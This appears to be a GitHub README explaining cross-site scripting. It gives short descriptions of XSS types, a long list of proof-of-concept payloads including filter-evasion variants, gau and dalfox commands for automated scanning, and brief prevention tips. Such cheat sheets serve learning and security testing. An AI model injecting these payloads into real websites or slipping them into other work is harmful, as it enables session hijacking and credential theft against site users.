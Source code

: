 # XSS-Explained
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 
XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different user like as alert(1) this is the most popular.

##types of XSS attacks 
1.Refleected XSS 
  Description: off a web server often via a query string) and executed in a browser. 
  It happens in(search , URLs)
2.Stord XSS 
 Description: Script is stored on the server 
 It happens in ( message , user profiles , comments , chat bot or anywhere to sotred )
3.Dom XSS 
 Client-side vulnerability 
4.slef XSS 

##impact 
Data theft as cookies or credentials
Session hijacking and account takeovers.
Defacing websites.
Spreading malware via compromised websites

###PoC 

<script>alert(1)</script>
<svg>prompt(1)</svg>
<xss onafterscriptexecute=alert(1)><script>1</script>
<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:10s ease-in-out 0s 1 x;}</style><xss id=x style="position:absolute;" onanimationcancel="print()"></xss>
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>
<xss onbeforescriptexecute=alert(1)><script>1</script>
<body onbeforeprint=console.log(1)>
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
<audio oncanplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>
<xss oncontentvisibilityautostatechange=alert(1) style=display:block;content-visibility:auto>
<input type=hidden oncontentvisibilityautostatechange=alert(1) style=content-visibility:auto>
<svg><animate onend=alert(1) attributeName=x dur=1s>
<audio src/onerror=alert(1)>
<a id=x tabindex=1 onfocus=alert(1)></a>
<xss onfocus=alert(1) autofocus tabindex=1>
<body onhashchange="print()">
<body onhashchange="print()">
<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>
<input onauxclick=alert(1)>
<xss contenteditable onbeforeinput=alert(1)>test
<xss contenteditable onbeforeinput=alert(1)>test
<input type=file oncancel=alert(1)>
<xss draggable="true" ondragstart="alert(1)" style=display:block>test</xss>
<form onreset=alert(1)><input type=reset>
<form><input type=search onsearch=alert(1) value="Hit return" autofocus>
<body onselectstart=alert(1)>select some text
<form onsubmit=alert(1)><input type=submit>
<body ontouchend=alert(1)> 
">img scr =q onerror=prompt(100)>
<script>onerror=alert;throw 1</script>
<script>{onerror=alert}throw 1</script>
<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>
<script>alert`1`</script>
<svg onload=alert(1) 
<svg onload=alert(1)<!--
<script>throw[onerror]=[alert],1</script>
<iframe src="javascript:alert(1)">
<a href="javascript:alert(1)">XSS</a>
<a href="JaVaScript:alert(1)">XSS</a>
<a href="javas	cript:alert(1)">XSS</a>
<a href="javascript:alert(1)">XSS</a>
<script src="data:text/javascript,alert(1)"></script>
<math><x href="javascript:alert(1)">blah
<a href=# download="filename.html">Test</a>
javascript:confirm(1);
<scr<script>ipt>alert('XSS')</scr<script>ipt>
https://jsfuck.com/

##PoC by automation tool
1.creat file for find all URLs
2.Using dalfox 

gau example.com > urls.txt
dalfox file urls.txt --output results.txt

##Prevent XSS attacks
1. Output Encoding
2. Content Security Policy (CSP)
3. Input Validation
































